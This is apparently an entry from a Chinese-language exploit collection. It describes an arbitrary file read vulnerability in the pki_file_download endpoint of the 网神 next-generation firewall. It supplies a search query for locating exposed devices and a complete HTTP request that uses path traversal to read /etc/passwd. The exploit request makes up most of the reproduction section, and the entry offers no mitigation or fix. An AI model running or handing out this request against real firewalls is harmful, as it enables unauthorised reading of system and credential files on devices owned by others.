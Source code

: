 # 网神 下一代极速防火墙 pki_file_download 任意文件读取漏洞

## 漏洞描述

网神下一代极速防火墙 pki_file_download 存在任意文件读取漏洞，攻击者可以通过漏洞获取服务器上的任意文件

## 漏洞影响

```
网神下一代极速防火墙
```

## 网络测绘

```
app="网神下一代极速防火墙"
```

## 漏洞复现

登录页面如下

![](images/202202162229226.png)

发送请求包

```plain
GET /?g=pki_file_download&filename=../../../../../etc/passwd HTTP/1.1
Host: 
Connection: close
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __s_sessionid__=7rl7vvg1mlc00gf4pfmo74h0t7
```

![](images/202202162229183.png)



